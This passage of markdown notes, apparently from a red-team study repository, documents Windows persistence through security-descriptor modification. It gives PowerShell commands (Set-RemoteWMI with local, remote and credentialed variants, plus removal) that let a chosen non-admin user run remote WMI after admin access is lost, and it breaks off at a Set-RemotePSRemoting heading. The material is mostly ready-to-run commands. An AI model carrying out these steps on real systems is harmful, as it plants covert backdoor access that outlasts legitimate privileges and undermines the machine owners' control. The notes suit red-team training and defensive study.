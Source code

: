 Documentation : https://docs.microsoft.com/en-us/windows/win32/secauthz/ace-strings?redirectedfrom=MSDN

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges.


## <span style="color:lightgreen">Set-RemoteWMI</span>

### <span style="color:#F1C232">1. On local machine for userX</span>

```powershell
Set-RemoteWMI -UserName userX -Verbose
```

### <span style="color:#F1C232">2. On remote machine for userX without explicit credentials</span>

```powershell
Set-RemoteWMI -UserName userX -ComputerName <computer> -namespace 'root\cimv2' -Verbose
```
### <span style="color:#F1C232">3. Now we can execute **WMI** commands</span>

```powershell
Get-WmiObject -Class win32_operatingsystem -ComputerName <computer>
```

### <span style="color:#F1C232">4. On remote machine with explicit credentials. Only root\cimv2 and nested namespaces</span>

```powershell
Set-RemoteWMI -UserName userX -ComputerName <computer> -Credential Administrator -namespace 'root\cimv2' -Verbose
```

### <span style="color:#F1C232">5. On remote machine remove permissions</span>

```powershell
Set-RemoteWMI -UserName userX -ComputerName <computer> -namespace 'root\cimv2' -Remove -Verbose
```

## <span style="color:lightgreen">Set-RemotePSRemoting</span>

### <span style="color:#F1C232">1. On local machine for userX</span>
